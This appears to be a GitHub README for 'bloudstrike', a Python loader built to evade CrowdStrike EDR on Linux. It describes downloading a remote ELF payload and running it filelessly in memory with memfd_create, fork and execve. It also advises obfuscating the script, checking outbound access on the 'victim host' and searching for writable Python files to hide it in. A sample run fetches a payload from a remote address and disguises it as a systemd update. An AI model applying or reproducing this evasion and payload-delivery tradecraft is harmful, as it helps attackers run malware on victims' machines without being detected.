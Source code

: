 # bloudstrike - a (semi-retired) CS bypass loader
During several engagements, I dealt with CS on Linux servers. It was annoying because post-exploitation enumeration scripts would instantly be killed, and manual techniques were returning wack information. The script is insanely simple, and this isn't a profound or new method of execution by any means - but it helped me work around limited execution & detection. I didn't even expect ```memfd_create``` to work as opposed to other methods that are more stealthy. I can't speak for the specifics of detections, I just know my clients were telling me that it wasn't being detected by CS - and tbh that was good enough for me.

I have used this technique a lot over the course of the last year and a half, however, as of two months ago, this stopped working as an adequate bypass. In some cases, you can run it more than once and it still works - getting you to the point of being able to execute subsequent tools, but at that marker, you've already produced a lot of detection events.

I'm publishing this because it could give you an idea of some other techniques that might work. Since I don't have access to CS Linux, I can't test my latest techniques - but I've already started to use a different method.

# Technical Details
The script leverages fileless execution using ```memfd_create``` to load ELF binaries directly into memory. It does so by calling linux syscall ```319``` to allocate a memory-only file descriptor ```(FD)```. This prevents writing the malware on disk.

A target ELF binary, is downloaded from a remote URL using ```urllib.request```and writes the ELF binary contents into the in-memory FD ``/proc/self/fd/{fd}``. 

Lastly, a new process is spawned by calling ```os.fork``` and subsequently calling```os.execve()```to directly load the binary from memory into the new process and execute it.

# Limitations
You shouldn't have any issues running it as a regular user, since ```os.fork()``` will create a process that is an exact same copy of the parent loader, and inherit the same UID, GID, and privs. Additionally, this is only going to be a good as your ELF - no matter how you may rework this loader. However, you might run into some prevention methodology. I don't want to get into the heuristics of all of the detection mechanisms in place that can stop this from working, as it might affect my other loaders. Keep in mind that EDR is now the main limitation. In some cases there *could* be AppArmor/SELinux rules that prevent this from running, but ya know - there are always ways around that.

# OS Support (Tested)
- Ubuntu 20.04, 22.04
- Debian 10, 11
- Kali Linux
# Probably Works On
- Most Linux distros with Kernel 3.17+, Alpine Linux (with ```glibc```), CentOS 7+ if you can enable ```memfd_create```
# Probably Wont Work On
- Older Linux Kernels <3.17
- Qubes OS or Hardened Alpine Linux builds
- Probably if you're running inside of Docker, LXC, or Kubernetes.

## Usage
1. Before you do any of this, please ensure that you have outbound on the victim host, since you're pulling a remote URL (obv). If you can, I'd recommend first pulling this down somewhere you can edit it [basically I don't recommend cloning this repo onto the victim host direct]. Take out the ASCII, modify print strings, change variable names, etc. Basically, obfuscate.<br><br>
```git clone https://github.com/johnjhacking/bloudstrike```<br>
```nano bloudstrike.py```<br>
<--make your edits and save--><br><br>
2. If you have TTY, you can easily just make the script while on the host. I'll leave the "where to put it" to your best discretion, reminding you that it'll be the parent execution process that shows in a proclist. I mean...a lot of ways to fry a fish.<br>
```find / -type f -name "*.py" \( -perm -u=w -o -perm -g=w -o -perm -o=w \) 2>/dev/null```<br>
3. Host the ELF file on a domain. Chmod the loader and execute.<br>
```chmod +x whatever.py```<br>OR if you went the find route, simply execute.<br>
```
└─$ python3 whatever.py -u https://x.x.x.x/systemd-helper.elf

            ___----------___
         _--                ----__
        -                         ---_
       -___    ____---_              --_
   __---_ .-_--   _ O _-                - 
  -      -_-       ---                   -
 -   __---------___                       -
 - _----                                  -
  -     -_                                 _
  `      _-                                 _
        _                           _-_  _-_ _
       _-                   ____    -_  -   --
       -   _-__   _    __---    -------       -
      _- _-   -_-- -_--                        _
      -_-                                       _
     _-                                          _
     - all my h0mies h8 bloudstrike

[systemd-helper] Allocating service descriptor...
[systemd-helper] Retrieving update package from: https://x.x.x.x/systemd-helper.elf
[systemd-helper] Processing system update...
[systemd-helper] Starting maintenance task...
[systemd-helper] Monitoring background process (PID: 2880622)...
[systemd-helper] Running scheduled service...
[systemd-helper] Service started successfully.
```
